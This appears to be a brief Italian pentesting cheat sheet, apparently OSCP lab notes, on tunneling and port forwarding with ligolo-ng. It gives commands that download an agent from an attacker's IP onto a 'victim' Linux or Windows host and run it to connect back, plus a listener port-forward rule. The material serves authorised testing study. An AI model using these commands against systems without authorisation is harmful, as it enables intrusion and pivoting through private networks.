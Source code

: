 ### Tunneling

Su **kali**:

```bash
git clone https://github.com/nicocha30/ligolo-ng.git

cd ligolo-ng

sudo go build -o agent cmd/agent/main.go
sudo go build -o proxy cmd/proxy/main.go

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip

unzip ligolo-ng_agent_0.5.2_windows_amd64.zip
```

```bash
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $SUBNET_TARGET/24 dev ligolo

sudo ./proxy -selfcert
```

Su **linux** vittima:

```bash
wget http://192.168.45.226:9999/ligolo-ng/agent

./agent -connect 192.168.45.226:11601 -ignore-cert
```

Su **windows**:

```bash
iwr -uri http://$KALI_IP:9999/ligolo-ng/agent.exe -Outfile agent.exe

.\agent.exe -connect 192.168.45.175:11601 -ignore-cert
```

### Port Forwarding

```text
Creates a listener on the machine where we're running the agent at port 1234  
and redirects the traffic to port 4444 on our machine.  
You can use other ports, of course.
```

[Guida](https://github.com/0xsyr0/OSCP?tab=readme-ov-file#basics)

```bash
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```

### Double Pivoting
